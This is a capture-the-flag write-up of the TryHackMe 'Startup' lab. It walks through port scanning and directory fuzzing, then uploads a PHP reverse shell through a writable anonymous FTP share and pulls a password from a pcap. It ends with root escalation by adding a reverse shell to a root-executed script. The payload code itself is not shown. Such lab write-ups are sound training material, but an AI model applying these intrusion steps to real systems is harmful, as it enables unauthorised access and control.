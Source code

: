 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Startup
# DESCRIPTION       . Abuse traditional vulnerabilities via untraditional means.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/startup
```

```bash
sudo nmap -sSVC -T5 10.10.28.224 -p- -oN Startup
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- I also started fuzzing the webserver in the meanwhile.

```bash
ffuf -u http://10.10.28.224/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

- FTP supports anonymous login. However, both files are also present in the `/files` web directory, so we can grab them either way.

```notice.txt
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

- Alright. What I understand here is that this FTP was meant to be left public (anonymous). But we got an username: `maya`.

- I have noticed that we have `write access` to the `FTP` folder. Since we already know that everything there will end up on the webserver in `/files`, let's go ahead and try uploading a revshell.

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp

-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

```
cd ftp
250 Directory successfully changed.

ftp> put shell.php shell.php

local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.

226 Transfer complete.

ftp> exit
```

- The shell is available at `ip/files/ftp/shell.php`

- The first flag is in `/recipe.txt`.

- In the same directory, there's an uncommon directory called `incidents` with a file `suspiucious.pcapng`

- I've moved the file to `/var/www/html/files/ftp` and downloaded it on my machine.

- After some analysis, I've noticed that in the HTTP traffic there was a previous attempt to get a reverse shell on the server.

![[Pasted image 20231125214019.png]]

- The `shell.php` file could also be viewed from `File -> Export Objects -> HTTP`

- If we follow the TCP-Stream of those packets, we end up with packet 215 (tcp stream 7), where we can find the password of user `lennie

```bash
www-data@startup:/home$ cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: {redacted}
```

- The first flag is in `/home/lennie/user.txt`.

- The privilege escalation was rather straight forward. Inside lennie's home directory, there is a directory called `scripts`.

- Inside that, we find a bash script called `planner.sh` that is owned by root.

```
lennie@startup:~/scripts$ ls -l .

-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
```

```planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

- However, the script called at the end, `print.sh`, is owned (thus editable) by lennie. 

- Edit the `/etc/print.sh` file with a `bash reverse shell` and start up a listener on the attack box. 

- The last flag is in `/root/root.txt`
